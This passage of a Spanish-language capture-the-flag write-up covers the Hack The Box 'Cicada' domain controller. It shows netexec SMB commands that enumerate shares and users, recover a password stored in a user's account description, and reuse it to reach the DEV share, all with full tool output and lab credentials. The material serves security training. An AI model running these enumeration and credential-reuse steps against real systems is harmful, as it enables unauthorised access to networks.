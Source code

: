 ```shell
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

Comprobamos si en las descripciones hay algo de material interesante que podamos obtener. Como se puede apreciar encontramos 
una contraseña del usuario david.orelious en su descripcion.

```shell
netexec smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users   

SMB 10.10.11.35  445 CICADA-DC david.orelious  2024-03-14 12:17:29 1  Just in case I forget my password is aRt$Lp#7t*VQ!3    
```

Por lo tanto vamos a comprobar si podemos listar y ver el contenido de algún directorio que anteriormente no tuvieramos acceso.

```shell
netexec smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aRt$Lp#7t*VQ!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```
Efectivamente podemos leer ahora el contenido de el directorio `DEV`
